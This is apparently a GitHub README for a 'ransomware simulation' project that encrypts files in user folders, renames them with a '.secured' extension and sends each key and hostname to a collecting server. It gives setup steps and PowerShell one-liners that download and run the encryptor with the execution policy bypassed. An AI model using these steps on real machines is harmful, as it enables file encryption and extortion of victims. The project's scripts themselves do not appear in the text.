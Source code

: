# **Ransomware Simulation Scripts**

**⚠️ IMPORTANT NOTICE: THIS PROJECT IS PURELY FOR EDUCATIONAL PURPOSES ONLY. IT SIMULATES A RANSOMWARE-LIKE ENCRYPTION AND DECRYPTION PROCESS TO HELP USERS UNDERSTAND ENCRYPTION, DECRYPTION, AND SECURE COMMUNICATION. DO NOT USE THIS PROJECT MALICIOUSLY OR WITHOUT PROPER AUTHORIZATION. THE AUTHORS ARE NOT RESPONSIBLE FOR ANY MISUSE OF THIS SOFTWARE. ⚠️**


> this only works on Windows Machine. traffic is unencrypted.
---

## **Overview**

The project consists of the following components:

1. **`encryptor.ps1`**:
   - Encrypts files in specified folders (e.g., Desktop, Downloads).
   - Renames encrypted files with a `.secured` extension.
   - Sends the encryption key and system hostname to the server.

2. **`decryptor.ps1`**:
   - Decrypts files with the `.secured` extension.
   - Restores the original file names.

3. **`server.py`**:
   - Acts as a central server to store encryption keys and hostnames.
   - Serves the `encryptor.ps1` and `decryptor.ps1` scripts via HTTP.
   - Displays a webpage with one-liner commands for encryption and decryption.

4. **`codegen.py`**:
   - Dynamically generates the `encryptor.ps1` and `decryptor.ps1` scripts.
   - Embeds the server's IP address into the scripts.

---

## **Prerequisites**

### **1. Python Environment**
- Install Python 3.6 or higher.
- Install required Python libraries:
  ```bash
  pip install flask
  ```

### **2. PowerShell**
- Ensure PowerShell is installed on the target machine.
- Run PowerShell as an Administrator to avoid permission issues.

### **3. Network Setup**
- Ensure the server machine and client machines are on the same network.
- Allow communication on the server's port (default: `8000`).

---

## **Setup Instructions**

### **Step 1: Generate Scripts**
Run the `codegen.py` script to generate the `encryptor.ps1` and `decryptor.ps1` scripts:
```bash
python codegen.py
```
- By default, the script detects the server's IP address automatically.
- Alternatively, specify the server's IP manually:
  ```bash
  python codegen.py --ip <SERVER_IP>
  ```

### **Step 2: Start the Server**
Run the `server.py` script to start the server:
```bash
python server.py
```
- The server will display its IP address and port (e.g., `http://192.168.0.104:8000`).
- Access the server's IP in a browser to view the webpage with one-liner commands.

### **Step 3: Deploy Scripts**
- Place the generated `encryptor.ps1` and `decryptor.ps1` scripts in the parent directory of the server script.
- Ensure the server can serve these files when accessed via HTTP.

---

## **Usage Instructions**

### **1. Encryption**
Run the `encryptor.ps1` script on the target machine:
```powershell
powershell -ExecutionPolicy Bypass -File .\encryptor.ps1
```
- The script will:
  - Encrypt files in the specified folders (e.g., Desktop, Downloads).
  - Rename encrypted files with a `.secured` extension.
  - Send the encryption key and system hostname to the server.

### **2. Decryption**
Run the `decryptor.ps1` script on the target machine:
```powershell
powershell -ExecutionPolicy Bypass -File .\decryptor.ps1
```
- The script will:
  - Decrypt files with the `.secured` extension.
  - Restore the original file names.

### **3. One-Liner Commands**
Access the server's IP in a browser (e.g., `http://192.168.0.104:8000`) to view one-liner commands for encryption and decryption.

#### Example One-Liner for Encryption:
```powershell
powershell -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri http://192.168.0.104:8000/script/encryptor.ps1 -OutFile encryptor.ps1; .\encryptor.ps1"
```

#### Example One-Liner for Decryption:
```powershell
powershell -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri http://192.168.0.104:8000/script/decryptor.ps1 -OutFile decryptor.ps1; .\decryptor.ps1"
```

---

## **Server Features**

### **1. Webpage**
When you access the server's IP in a browser, you will see:
- One-liner commands for encryption and decryption.
- Statistics on the number of secured systems.

### **2. Key Storage**
The server stores encryption keys and hostnames in a file named `encryption_keys.txt`.

### **3. File Serving**
The server serves the `encryptor.ps1` and `decryptor.ps1` scripts via HTTP.

---

## **Troubleshooting**

### **1. Script Fails to Run**
- Ensure PowerShell is running with elevated privileges (as Administrator).
- Check the `encryption_log.txt` file for detailed error messages.

### **2. Files Not Encrypted**
- Verify that the files are accessible and not locked by another process.
- Ensure the script skips already encrypted files (`.secured` extension).

### **3. Server Not Accessible**
- Check the server's IP address and port.
- Ensure the firewall allows incoming connections on port `8000`.

### **4. Missing Dependencies**
- Install any missing Python libraries using `pip install <library_name>`.

---

## **Disclaimer**

This project is intended for educational purposes only. It simulates a ransomware-like behavior to help users understand encryption, decryption, and secure communication. Do not use this project maliciously or without proper authorization. The authors are not responsible for any misuse of this software.

---



[![Youtube Video](https://i.ibb.co/cS8MvfdQ/2.png)](https://youtu.be/R0nV2_K4ncE)

---

## **Contact**

For questions or feedback, please contact:
- X :[ x/anir0y](https://x.com/anir0y)
- GitHub: [github/anir0y](https://github.com/anir0y/)
